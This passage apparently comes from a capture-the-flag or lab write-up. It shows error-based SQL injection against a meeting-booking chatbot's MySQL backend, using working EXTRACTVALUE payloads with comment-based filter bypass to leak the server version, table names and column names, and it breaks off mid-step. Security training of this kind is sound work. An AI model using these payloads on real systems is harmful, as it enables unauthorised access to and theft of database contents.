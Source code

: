     To test for SQL injection, we begin by submitting a simple breaking payload:

    ```bash
    test'
    ```

    This results in the following error:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'a@a.aa')' at line 2")
    ```

    This confirms that user input is being directly interpolated into a SQL query without sanitization indicating a likely SQL injection vulnerability. Next, to verify if error-based SQL injection is possible, we use a payload leveraging MySQL’s `EXTRACTVALUE()` function to provoke an error and leak information:

    ```bash
    test',EXTRACTVALUE(1,CONCAT(0x5c,VERSION())));--#
    ```

    It results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\8.0.41'")
    ```

    This confirms that the backend is running MySQL and the injection point is exploitable for error-based data exfiltration. The `/**/` comments are used to bypass filters that block regular spaces.

13. Exploiting the SQL Injection

    With the vulnerability confirmed, we begin enumerating database tables:

    ```bash
    test',EXTRACTVALUE(1,/**/CONCAT(0x5c,(SELECT/**/GROUP_CONCAT(table_name)/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA/**/=/**/'chatbot-db'))));--#
    ```

    This results in:

    ```bash
    Oops, something went wrong while booking the meeting. Error: (1105, "XPATH syntax error: '\\backup_env,meetings'")
    ```

    We can see that the database has two tables: `backup_env` and `meetings`. Checking the contents of the `backup_env` table, we can see that it contains the following data:

    ```bash
    test',EXTRACTVALUE(1,/**/CONCAT(0x5c,(SELECT/**/GROUP_CONCAT(column_name)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME/**/=/**/'backup_env'))));--#
    ```

    This results in:
